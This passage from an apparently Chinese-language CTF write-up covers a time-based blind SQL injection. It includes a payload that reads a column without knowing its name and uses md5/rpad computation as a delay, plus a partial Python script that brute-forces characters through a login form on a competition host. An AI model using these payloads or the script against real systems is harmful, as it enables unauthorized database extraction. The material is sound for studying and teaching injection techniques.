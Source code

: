 在这其中我们还遇到一个问题就是，password中间包含or，导致不能直接查询这个字段的内容，这个就用到了之前学到的[在不知道列名的情况下进行注入](https://nosec.org/home/detail/2245.html)

产生这样的payload
```
asd' and SUBSTR((select \`2\` from (select 1,2 union select * from user)a limit 1,1),1,1) = 'f' and md5(concat(rpad(1,999999,'u8y'),rpad(1,999999,'r465i'),rpad(1,999999,'a'),rpad(1,999999,''),rpad(1,999999,'a'),rpad(1,999999,'sda'),rpad(1,999999,'fea'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'r34a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'234234a'),rpad(1,999999,'234324a'),rpad(1,999999,'a'),rpad(1,999999,'a'))) --
```

结果，比赛一结束，流量一下来我们发现。。。md5产生的延时大概只有60ms，而且重复计算同一字符串并不会被缓存，我跟另一个做这个题的师傅差点气死在屋子里。

赛后我写出来一个脚本
```python
# !/usr/bin/env python
#  -*- coding: utf-8 -*-
import requests
from requests.exceptions import ReadTimeout, ConnectionError
from urllib import quote
import time
import re

payloads = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!-_'

url = 'http://39.97.167.120:52105'
# url = 'http://localhost:8090/article.php?id='

# 60ms
sleep_func = "md5(concat(rpad(1,999999,'u878uy'),rpad(1,999999,'i'),rpad(1,999999,'7u6'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'sda'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'234234a'),rpad(1,999999,'234324a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a')))"


def run_sort(query):
    def brute_single_char(target_index):
        for c in payloads:
            flag = 1
            for i in range(3):
                payload = "1' and ASCII(SUBSTR({},{},1))={} and {} -- ".format(query, target_index, ord(c), sleep_func)
                print(payload)
                data = {
                    "username":payload,
                    "password":"123"
                    }
                req = requests.post(url,data)
                
                if(req.elapsed.microseconds < 150000):
                    flag = 0
                    break
            if flag:
                print(c,'=',req.elapsed.microseconds)
                return c
        return None

    result = []
    try:
        for index in range(1, 28):
            print '________INDEX {}_______'.format(index)
```